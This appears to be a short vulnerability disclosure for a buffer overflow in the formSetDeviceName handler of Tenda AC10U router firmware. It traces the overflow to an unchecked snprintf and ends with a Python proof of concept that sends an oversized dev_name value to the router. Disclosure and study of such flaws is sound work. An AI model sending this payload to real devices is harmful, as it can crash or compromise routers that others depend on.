 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](11.png)

get value from devName ,send to set_device_name

![](12.png)

and dont send the mac ,we can get into else

finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetDeviceName"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
